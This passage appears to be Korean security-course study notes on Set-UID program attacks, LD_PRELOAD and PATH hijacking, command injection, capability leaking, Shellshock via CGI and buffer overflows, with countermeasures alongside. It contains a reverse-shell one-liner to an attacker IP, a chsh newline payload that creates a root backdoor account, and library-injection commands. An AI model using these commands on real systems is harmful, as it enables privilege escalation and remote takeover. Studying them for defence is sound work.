      - 편집기 내에서 사용자가 명령모드를 사용해 외부 프로그램을 실행시킬 수 있기 때문
- Set-UID 프로그램의 공격 표면
  - 유저 입력
  - 사용자가 제어할 수 있는 시스템 입력
  - 환경 변수
  - 사용자가 제어하는 특권 없는 프로세스
- 환경 변수를 통한 공격
  - 프로그램이 실행될 때 프로그램은 잠재적으로 볼 수 없는 많은 입력에 의해 영향을 받을 수 있음
  - 환경변수 : 프로그램 실행 전에 유저에 의해 설정될 수 있음
    - printenv or env
  - PATH 환경 변수
    - 사용자가 명령어에 대한 전체 경로를 제공하지 않았을 때 명령이 있는 위치를 찾기 위해 쉘 프로그램에서 사용
    - system() 함수를 호출하면 /bin/sh을 먼저 호출
    - /bin/sh는 명령어 인자로 넘어온 ls를 찾기위해 PATH 환경변수를 사용
    - 이때 PATH 환경변수를 조작해서 ls라는 사용자의 자체 악성 프로그램을 제공할 수 있음
- 외부 프로그램을 통한 공격
  - 취약 코드에서 system("ls")를 사용한다면 
  - system("/bin/dash") 코드를 포함한 ls라는 바이너리 파일을 만든 후 root 소유의 set UID 비트를 설정한 후 취약 코드를 실행하면 root 쉘로 진입
- 다이나믹 링커를 통한 공격
  - 링킹은 프로그램에서 언급된 외부라이브러리 코드를 찾음
  - 링킹은 런타임이나 컴파일 때 행해짐
    - Dynamic Linking
      - 코드에서 필요로하는 외부 라이브러리의 주소만 갖고 있음
      - 주기억 장치에 libc가 동적으로 올라감 // libc == 함수 원형
      - 공격의 표면이 되는 환경변수를 이용 
    - Static Linking
      - 코드에서 필요로하는 외부라이브러리를 한번에 컴파일
      - 실행파일에 libc가 통채로 올라감
      - static은 ldd로 확인해보면 링킹이 없음 이미 코드에 다 있어서
  - 공격 방법
    - gcc -c sleep.c // output이 (.o ; object)파일
    - gcc -shared -o libmylib.so.1.0.1 sleep.o // 커스텀 라이브러리 생성
    - export LD_PRELOAD=./libmylib.so.1.0.1 // LD_PRELOAD에 설정된 라이브러리를 기존 라이브러리가 로딩되기 전에 로딩시킴 --> 공격자의 sleep이 호출됨
    - unset LD_PRELOAD // 환경변수를 지움
  - 대책
    - 보안에 관련된 LD_LIBRARY_PATH, LD_PRELOAD를 설정하고 SetUID를 설정하면 리눅스 자체적으로 보호
      - LD_PRELOAD 등의 보안 관련된 환경변수들은 RUID와 EUID가 다른 경우 무시
- Attacks via User Inputs
  - 사용자의 입력 : 명시적 입력
    - 버퍼 오버플로우
      - input으로 버퍼(할당된 공간)을 넘치게 하여 악성 코드를 실행
    - 문자열 취약점
      - 사용자 입력을 형식 문자열로 사용하여 프로그램의 동작을 변경
  - CHSH - Change Shell
    - 기본 쉘 프로그램을 변경할 수 있는 set-UID 프로그램
    - 쉘 프로그램은 /etc/passwd 파일에 저장됨
    - 입력을 올바르게 삭제하지 않았음
    - 공격자들은 새로운 루트 계정을 만들 수 있었음
    - chsh -s "/usr/bin/zsh\n myroot:???:0:0:MY backdoor:/home:bin/bash"
      - UID, GID == 0  --> root
- Invoking Programs
  - 프로그램 내에서 외부 명령어를 사용
  - 외부 명령어는 Set-UID  프로그램에 의해 선택됨
    - 사용자들은 명령을 제공해서는 안됨
  - 공격
    - 명령어가 적절히 호출되지 않는다면 유저의 입력 데이터는 명령어 이름으로 변함
- Invoking Programs : Unsafe Approach
  - 외부 명령어를 호출하는 가장 쉬운 방법은 system() 함수
  - 이 프로그램은 /bin/cat 프로그램을 실행하는 것으로 가정됨
  - 이는 Set-UID 프로그램으로 모든 파일을 볼 수는 있지만 쓸 수는 없음
  - 원래 의도는 catall 파일에 인자로 파일명을 주면 루트 권한으로 파일을 읽는 코드
  - 파일명 뒤에 문장의 끝임을 명시하는 세미콜론을 넣고 코드를 넣어 루트 권한으로 실행
  - 대책
    - /bin/sh이 /bin/dash를 가리키도록 링크 생성
      - 이는 SetUID 프로세스 안에서 실행되면 특권을 버림
    - execve() 사용
      - system()은 문자열을 통째로 받아서 취약
      - execve()의 경우 코드와 데이터가 명확하게 분리되어있어서 유저의 데이터가 코드가 될 수가 없음
        - execve(v[0]\(커맨드), v(데이터), 0)
    - 이러한 대책을 세우고 실행해보면 인자 전체를 파일명으로 인식
- Attack via System Inputs
  - 경쟁 상태 공격
    - 심볼릭 링크를 특권이 없는 파일에서 특권이 있는 파일로 생성
    - 프로그램에 영향을 끼칠 수 있음
- Capability Leaking
  - 몇몇 경우에, 특권이 있는 프로그램은 실행 동안 그들 자신을 다운그레이드함
  - ex: su 프로그램
    - 이는 특권이 있는 Set-UID 프로그램
    - 한 유저를 다른 유저로 바꿀 수 있도록 허가
    - 프로그램은 RUID가 user1이고 EUID가 root인 채로 시작
    - 비밀번호 유효성 검사 후 EUID와 RUID 는 user2의 것이 됨
  - 그러한 프로그램은 자격 유출로 이어질 확률이 높음
    - 특권이 다운그레이드될 때 프로그램이 해당 자격을 정리하지 않으면 특권 없는 프로세스에서 계속 접근할 수 있음
  - Set-UID 프로그램에서 다른 권한으로 실행하고 남은 파일들을 clean-up 해줘야 하는데 안하면 생기는 취약점
  - 파일을 열고 닫지않았을 때 발생하는 자격 유출
    - 파일을 setUID의 root 권한으로 O_RDWR 읽기/쓰기, O_APPEND 추가 권한으로 연 후 닫지 않은채로 EUID를 RUID로 설정(root 권한 반납)한 후 (일반 유저)쉘을 실행하여 쓰기 권한이 없는 파일에 파일 디스크립트를 이용하여 루트 권한으로 쓰는 예시
  - seteuid() = EUID를 설정
  - setuid() = EUID를 설정하는데, 호출된 프로세스가 특권 프로세스라면 RUID와 SUID또한 설정
- 격리의 원리
  - 데이터는 코드에서 확실하게 분리되어야 함
  - 이 원칙으로 인한 공격들
    - system() code 실행
    - Cross Site Scripting
    - Buffer Overflow attacks
- 최소 특권의 원칙
  - 특권있는 프로그램은 그 프로그램의 작업에 걸맞은 특권을 부여받아야 함
  - 특권있는 프로그램이 사용되지 않을 때 특권을 비활성화
  - 리눅스에서 seteuid나 setuid는 특권을 버리는데 사용할 수 있음

## Ch 4

### Shellshock

- 쉘 쇼크 취약점

  - 부모 프로세스는 환경 변수를 통해 자식 쉘 프로세스에 함수 정의를 전달할 수 있음
  - 자식의 bash가 환경 변수의 값을 함수로 변환할 때 변수에 포함된 명령을 실행하는 것이 아니라 구분을 분석해야 함
  - 그러나 구분 분석 논리의 버그로 인해 bash는 변수에 포함된 일부 명령을 실행
  - 쉘 변수를 정의하고 그 값으로 함수 정의를 넣은 후 환경 변수를 통해 자식 프로세스로 내보낼 때 자식 프로세스가 생성되면서 자식 쉘이 환경 변수를 구문 분석하게 되는데 구문 분석 중에 Shellshock 버그로 인해 bash가 중괄호 다음에 있는 명령을 실행하게 됨
  - variables.c(취약한 쉘 코드)에서 bash는 환경변수의 값이 () {로 시작하는지를 확인하여 일치하면 = 문자를 공백으로 대체하여 환경 변수 문자열을 함수 정의 문자열로 변환하는 부분이 있음
  - 그 다음 Bash는 parse_and_execute() 함수를 호출하여 함수 정의를 구문분석 하는데, 문자열이 함수 정의인 경우 구문 분석 함수는 구문 분석만 하고 실행하지 않지만, 문자열에 쉘 명령이 포함되어 있으면 구문 분석 함수가 이를 실행함

  - 데이터와 코드의 격리가 안됨

- 대책

  - export foo && declare -f foo 
    - 패치된 bash 쉘은 foo의 값을 문자열로 인식
  - export -f foo && declare -f foo 
    - 환경변수에 접두사와 접미사를 붙여서 이름에 올바른 접두사와 접미사가 있는 경우에만 함수로 변환될 수 있음

- 조건

  - Bash 쉘을 실행시켜야 하고
  - 환경 변수에 공격자의 의도가 담긴 코드를 넣어야 함

- Shellshock Attack on CGI

  - CGI: 공용 게이트웨이 인터페이스
  - 클라이언트의 요청을 서버가 받고 그 중 쉘 스크립트가 포함되어있다면 CGI에 요청
  - http 요청 --> 아파치 웹서버 --> fork() --> 자식 프로세스 --> exec() --> Bash Shell(CGI 스크립트 실행) --> Shellshock
  - 가정
    - 취약한 Bash 쉘을 사용하는 CGI
    - 클라이언트의 악성코드가 CGI로 들어간다면 
    - ==> ShellShock attack 가능
  - curl에 헤더로 Shellshock 코드 삽입

- 리버스 쉘

  - 리버스쉘은 반대로 공격자 측에서 서버를 열어서 희생자가 접속하도록 함
  - 공격자의 input이 서버 머신에서 처리되어 출력값을 다시 공격자의 머신에 띄워주는 것
  - /bin/bash -i >/dev/tcp/10.0.2.6/9090 0<&1 2>&1
    - /bin/bash -i > /dev/tcp~ : bash쉘을 대화형으로 실행한 후 bash 쉘의 출력 장치가 공격자의 포트 9090로 리디렉션
    - 0<&1은 표준 입력 장치로 표준 출력 장치를 사용하도록 시스템에 지시 --> TCP 연결 후엔 TCP 연결에서 입력을 받는다는 뜻
    - 2>&1은 표준 에러를 표준 출력으로 리디렉션

### System Call Execution

- 시스템 콜 호출 예제
  - 시스템 콜 : 하드웨어 자원에 direct로 접근할 수 있게 해주는 함수

## Ch 5

### 버퍼 오버플로우 공격

- 프로그램 메모리 스택
  - 지역변수 --> 스택
  - static + 초기화하지 않은 전역변수 --> BSS 세그먼트
  - 포인터 --> 스택
  - 포인터가 가리키는 메모리 공간 --> 힙
  - 전역변수 --> 데이터 세그먼트
- Function Call Stack
  - argument는 오른쪽부터 push
  - Call --> Return Addr push + Previous Frame Pointer push
    - push eip, push ebp
  - 프레임 포인터를 이용해 인수를 저장
- strcpy는 NULL이 나오기 전까지만 복사
- 문자열을 타겟 버퍼에 복사할 때 문자열이 버퍼 크기보다 길면 버퍼 위의 스택 일부를 덮어쓰는데 이를 버퍼 오버플로우 라고 함
  - 프로그램에 특권이 있는 경우 프로그램을 하이재킹할 수 있으면 공격자에 대한 특권 상승으로 이어짐

